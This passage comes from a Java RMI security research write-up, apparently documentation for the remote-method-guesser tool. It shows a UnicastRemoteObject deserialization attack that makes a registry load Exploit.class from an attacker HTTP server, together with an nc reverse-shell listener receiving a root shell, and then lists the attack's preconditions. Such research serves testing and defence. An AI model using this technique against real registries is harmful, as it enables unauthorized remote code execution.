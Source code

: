 The following listing shows an successful execution against a registry running with the above mentioned arguments:

```java
[qtc@devbox remote-method-guesser]$ rmg sample 127.0.0.1 1099 http://127.0.0.1:8000/ Exploit
[+] Binding name when-all-stars-align
[+] 
[+] 	Encountered no Exception during bind call.
[+] 	Bind operation was probably successful.

[qtc@devbox www]$ python3 -m http.server
Serving HTTP on 0.0.0.0 port 8000 (http://0.0.0.0:8000/) ...
127.0.0.1 - - [11/Feb/2021 07:35:37] "GET /Exploit.class HTTP/1.1" 200 -

[qtc@devbox ~]$ nc -vlp 4446
Ncat: Version 7.91 ( https://nmap.org/ncat )
Ncat: Listening on :::4446
Ncat: Listening on 0.0.0.0:4446
Ncat: Connection from 127.0.0.1.
Ncat: Connection from 127.0.0.1:43152.
id
uid=0(root) gid=0(root) groups=0(root)
```

As one can see, in the case then all stars align, you can get code execution using this technique. However,
here are again the three restrictions:

1. The attack needs to be executed from localhost (the localhost bypass (CVE-2019-2684) does not help here).
2. The registry has to accept arbitrary objects during deserialization.
3. The registry needs to run with a security policy which allows access to ``sun`` packages during
   deserialization.


### Conclusion

----

As demonstrated in this document, ``UnicastRemoteObject`` is a very interesting class that can be used to export
``RemoteObjects`` in a different security context, by abusing it's ``readObject`` method. However, the standard
library only provides a few classes that extend ``UnicastRemoteObject`` and non of them can be exploited without
other conditions that need to be fulfilled.

Beside the standard library, no other projects were investigated for possible attack surface. With access to the codebase
of your target, it definitely makes sense to look out for interesting classes that extend ``UnicastRemoteObject``.
Especially classes, that use the random assigned ``ObjID`` of ``UnicastRemoteObject`` as a session variable could be
completely broken by using the above mentioned technique.

Currently, none of the above mentioned ``UnicastRemoteObjects`` is implemented in *rmg*. As the probability of a vulnerable
endpoint is kind of low, this feature is not that that interesting. However, it may be added in future.
